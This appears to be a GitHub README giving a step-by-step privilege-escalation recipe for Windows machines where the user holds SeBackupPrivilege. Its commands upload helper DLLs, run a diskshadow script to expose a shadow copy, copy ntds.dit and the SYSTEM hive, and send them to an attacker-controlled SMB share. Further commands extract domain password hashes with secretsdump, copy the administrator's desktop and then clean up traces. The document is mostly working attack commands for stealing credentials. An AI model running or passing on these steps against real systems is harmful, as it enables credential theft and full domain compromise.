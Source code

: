 # SeBackupPrivilege

If you've SeBackupPrivilege. We can use that privilege to read and get any file from the target machine. If we attack SAM, SYSTEM or ntds.dit some important files we can beacome SYSTEM.


# Exploitation

First upload [SeBackupPrivilegeCmdLets.dll](https://github.com/k4sth4/SeBackupPrivilege/blob/main/SeBackupPrivilegeCmdLets.dll) and [SeBackupPrivilegeUtils.dll](https://github.com/k4sth4/SeBackupPrivilege/blob/main/SeBackupPrivilegeUtils.dll) to target machine.

### Import he DLLs
```markdown
import-module .\SeBackupPrivilegeCmdLets.dll
import-module .\SeBackupPrivilegeUtils.dll
```

### Create a vss.dsh file
```markdown
set context persistent nowriters
set metadata c:\\programdata\\test.cab        
set verbose on
add volume c: alias test
create
expose %test% z:
```
NOTE: c:\\programdata is the writeable path where you i have upload dll and creating a test.cab

### Change the file format
```markdown
unix2dos vss.dsh
```

upload the file on C:\\programdata 

### Use diskshadow to explore the func of copy
```markdown
diskshadow /s c:\\programdata\\vss.dsh
```

### Now you can copy any file 
copy any file to present dir and then download it to your system

We gonna get ntds.dit and system
```markdown
Copy-FileSeBackupPrivilege z:\\Windows\\ntds\\ntds.dit c:\\programdata\\ntds.dit
```
Now system file
```markdown
reg save HKLM\SYSTEM C:\\programdata\\SYSTEM
```
Now we can see that both ntds.dit and SYSTEM files are in our present dir.
You can also get other sensetive files like SAM, SYSTEM, SECURITY.

### Download these files using smb server.
```markdown
smbserver.py k4sth4 . -smb2support -username kt -password kt
net use \\10.10.x.x\k4sth4 /u:kt kt
```
```markdown
Copy-FileSeBackupPrivilege z:\\Windows\\ntds\\ntds.dit \\10.10.x.x\k4sth4\ntds.dit
reg.exe save hklm\system \\10.10.x.x\system
```

### Now extract the hashes from ntds.dit with SYSTEM as key
```markdown
secretsdump.py -ntds ntds.dit -system SYSTEM LOCAL
```

### We can also Dump the whole administrator dir into Temp
```markdown
robocopy /b C:\\users\\administrator\\desktop C:\\programdata\\temp
```
We get all the desktop files in temp dir.

## Now after doing this CleanUp is necessary

### cleanUp script vss.dsh
```markdown
set context persistent nowriters
set metadata c:\\programdata\\test.cab
set verbose on
delete shadows volume test
reset
```
```markdown
unix2dos vss.dsh
```

### upload and run
```markdown
diskshadow /s c:\\programdata\\vss.dsh
```



